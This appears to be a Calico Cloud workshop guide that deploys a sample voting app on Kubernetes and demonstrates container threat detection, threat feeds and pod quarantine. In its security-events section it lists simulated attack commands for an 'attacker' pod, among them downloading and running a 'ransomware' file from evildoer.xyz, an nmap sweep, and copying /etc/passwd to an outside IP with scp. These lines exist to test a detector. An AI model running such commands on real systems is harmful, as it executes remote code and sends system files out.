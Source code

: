 Container Security and Security Events
==============

## Step 1 - Set up the voting application

In this module we're moving away from the Hipstershop Online Boutique and setting up a sample voting application:

```bash
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/001felixConfigutations.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/002tiers.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/003-networkPolicies.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/004-vote-app-manifest.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/005-applicationLayer.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/006-pods.yaml
```

or

```bash
kubectl apply -f vote
```

Just like the previous modules, you need to label all pods within the ```vote``` namespace so they will be able to communicate with each other. 

```bash
kubectl label pods --all -n vote vote=true
```

Threat Defense
==============

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, let's download a file that contains the hash of a malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```bash
   kubectl exec attacker -it -- /bin/bash
   ```

2. From the bash inside the pod attacker execute the following command to: 1) Download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/200b4d0b-490a-4d7c-b18e-ef9c59cc6079)

   Because the `ransomware` file has a hash that identifies it as a malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domain is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one of them to visualize the lists of IP addresses or domains.

   ![threat-feeds](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/719cb334-e981-4e5e-8ef4-b37eea4a422b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

   ![activity-alerts](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/ed2aad8c-f713-4e0e-b5c5-8abdb299fdb4)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it, so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy to it that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, the cannot establish communication with any of the destinations.


